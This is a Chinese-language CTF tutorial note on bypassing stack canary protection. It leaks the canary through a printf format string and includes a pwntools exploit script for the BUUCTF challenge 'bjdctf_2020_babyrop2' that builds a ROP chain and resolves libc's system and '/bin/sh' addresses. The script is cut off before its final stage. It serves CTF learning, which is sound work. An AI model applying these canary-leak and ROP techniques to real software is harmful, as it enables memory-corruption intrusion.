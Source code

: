 ## Canary（金丝雀），栈溢出保护

1. canary保护是防止栈溢出的一种措施，其在调用函数时，在栈帧的上方放入一个`随机值` ，绕过canary时首先需要泄漏这个随机值，然后再钩爪ROP链时将其作为垃圾数据写入，注意要放在rbp的前面，下面调试来观察随机值：

   ![image-20240630104806257](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406301048369.png)

   1. 可以看到，在调用的函数的开头将rax作为随机值放入到了rbp上放的栈上

   ![image-20240630105026803](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406301050882.png)

   ![image-20240630105225422](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406301052502.png)

   2. 在函数的结尾，将随机值取出后，与本来的随机值做了对比，相同的才会返回，不同就会报错。

2. 在进行栈溢出时，如果程序开启了canary保护，首先就需要泄漏这个随机值，否则其被覆盖掉后，程序在退出时再检查该值，会引发错误。

### 1. 利用`printf格式化字符串` 泄漏随机值。

1. 

   1. 先确定 `随机值` 相对于 `格式化字符串` 的位置，再利用 `%n7$p` 来输出该位置的内容，然后就是常规的栈溢出ROP构造，但此时要注意将泄漏出来的 `canary` 填充再rbp位置的前面：
   1. 例题：[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#bjdctf_2020_babyrop2)

   ```python
   from pwn import *
   from LibcSearcher import *
   # 设置系统架构, 打印调试信息
   # arch 可选 : i386 / amd64 / arm / mips
   context(os='linux', arch='amd64', log_level='debug')
   p = remote("node5.buuoj.cn",29861)
   elf = ELF('./bjdctf_2020_babyrop2')
   #获取got、plt地址
   got = elf.got['puts']
   plt = elf.plt['puts']
   print(hex(got),hex(plt))
   
   p.recvuntil(b"I'll give u some gift to help u!\n")
   #泄漏canary
   p.sendline(b'%7$p')
   p.recvuntil(b'0x')
   canary = int(p.recv(16),16)
   print("canary:",hex(canary))
   
   #获取传参地址
   pop_rdi_ret = 0x0000000000400993
   #获取返回地址，便于下一次利用栈溢出
   main_addr = 0x400887
   print(hex(main_addr))
   ret = 0x00000000004005f9
   
   #构造payload，获得puts函数的地址，注意绕过canary，在rbp前面填充canary，计算canary前后填充的垃圾数据
   payload = b'a'*(0x18)+p64(canary)+b'a'*8+p64(pop_rdi_ret)+p64(got)+p64(plt)+p64(main_addr)
   p.sendline(payload)
   p.recvuntil(b'Pull up your sword and tell me u story!\n')
   addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
   print(hex(addr))
   libc = LibcSearcher('puts',addr)
   libc_base = addr - libc.dump('puts')
   sys_addr = libc_base + libc.dump('system')
   str_bin = libc_base + libc.dump('str_bin_sh')
   print(hex(libc_base),hex(sys_addr),hex(str_bin))
   
   p.recvuntil(b'Pull up your sword and tell me u story!\n')
   ```